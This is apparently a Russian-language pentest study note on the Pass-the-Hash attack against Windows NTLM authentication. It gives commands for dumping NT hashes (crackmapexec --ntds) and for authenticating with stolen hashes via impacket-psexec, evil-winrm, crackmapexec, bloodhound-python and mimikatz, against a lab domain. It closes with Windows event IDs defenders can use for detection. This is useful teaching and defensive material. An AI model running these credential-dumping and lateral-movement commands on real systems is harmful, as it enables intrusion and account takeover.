 > [!important]  
> Атака Pass The Hash позволяет злоумышленнику повторно использовать NT хэш для входа систему, избегая ввода пароля и используя протокол NTLM для авторизации, вместо базового Kerberos.  

# Что такое NT хэш и как его получить?

NTLM хэш (NTHash) представляет собой следующую цепочку преобразований:

_==Пароль пользователя==_ _==—>==_ _==UTF16-LE (LE - Little Endian)==_ _==—>==_ _==MD4==_

==`test.local\pth-user:1114:aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450:::`==

### Как видно, строка дампа состоит из 4х основных частей

1. Логин пользователя
2. Числовой идентификатор (UID)
3. LM хэш (устаревший вариант, который легко брутится)
4. NT хэш

  

### NT хэш получают одним из следующих способов

- Дамп NTDS.DIT
- Дамп lsass.exe
- Дамп SAM (дамп ветки реестра **HKEY_LOCAL_MACHINE\SAM** для локальных УЗ)

  

### Пример получения NT хэша, используя метод дампа NTDS

`crackmapexec smb 192.168.1.1 -u Администратор -p password --ntds`

![](../../../Attachments/Untitled_13.png)

В данном случае, важно учитывать наличие необходимых прав УЗ.

# Практика

Как было сказано, PTH позволяет войти в систему без пароля по протоколу NTLM.

Обычно, для этих целей используется PSexec из набора Impacket:

`impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` ==`aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450`==

![](../../../Attachments/Untitled_1_2.png)

# Дополнительная информация

## Использование только NT хэша

На данный момент, LM хэш не является обязательным атрибутом для проведения атаки PTH. Как можно заметить, LM хэш для каждого пользователя из примера получения хэшей совпадает и начинается с `aad3b4…`. Такая особенность связана с хэшированием “пустого пароля”, поскольку в современных системах используется только NT хэш из-за слабой криптостойкости односторонней функции хэширования, и такая конструкция называется **“заглушкой”**. Именно поэтому, возможно использовать лишь NT хэш:

`impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` ==`:8c2cf560d8d8abef7f13348b6aef1450`==

![](../../../Attachments/Untitled_2_2.png)

## Основные утилиты, представляющие функционал для PTH

- **psexec**
    - `impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` ==`:8c2cf560d8d8abef7f13348b6aef1450`==
- **evil-winrm**
    - `evil-winrm -i 192.168.1.1 -u “TEST\pth-user” --hash` ==`8c2cf560d8d8abef7f13348b6aef1450`==
- **crackmapexec**
    - `crackmapexec smb 192.168.1.1 -u pth.user -H` ==`8c2cf560d8d8abef7f13348b6aef1450`==
- **bloodhound-python**
    - `bloodhound-python -u “pth-user” --hashes` ==`aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450`== `-ns 192.168.1.1 -d test.local -c all`
- mimikatz.exe
    - `privilege::debug`
    - `sekurlsa::pth /user:pth-user /domain:test /ntlm:`==`8c2cf560d8d8abef7f13348b6aef1450`== `/run:powershell.exe`
- **и т.д.**

## Меняется ли алгоритм аутентификации NTLM при PTH?

Нет, сам алгоритм никак не меняется, поскольку при легитимной аутентификации пароль в открытом виде не применяется, но берется его хэш.

При атаке PTH нам не нужно вычислять хэш пароля, поскольку он у нас и так уже есть.

# Профит

Как уже было сказано, злоумышленник может повторно использовать украденный NT хэш для аутентификации по протоколу NTLM, минуя явное указание пароля и аутентификацию Kerberos.

### Также можно

- получить TGT билет
- Сбрутить хэш и получить пароль

# Артефакты

==Основной проблемой атаки PTH для синей команды является сложность детекта для удаленно проведенной атаки.==

Обычно, неудачная попытка доступа к шаре при указании неверного пароля/NT хэша вызывает следующие индикаторы:

- **Logon Type 3 (Network)** - пользователь или компьютер входит в систему
- **4625** - ошибка входа в связи с неверным УД

Однако, такой расклад не доказывает попытку проведения атаки Pass-The-Hash в полной мере.

### Основными индикаторами локально проведенной атаки служат 3 фактора

1. **Logon Type 9 (New credentials)** - использование утилиты “runas” для запуска приложения
2. **4648** - Выполнена попытка входа в систему с явным указанием УД
3. **4624** - Вход в УЗ выполнен успешно

  

_Еще иногда к этому добавляется событие_

**4672** - Специальные привилегии, присвоенные новому входу в систему

По сути, это событие возникает при учете входа в УЗ, обладающей административными правами.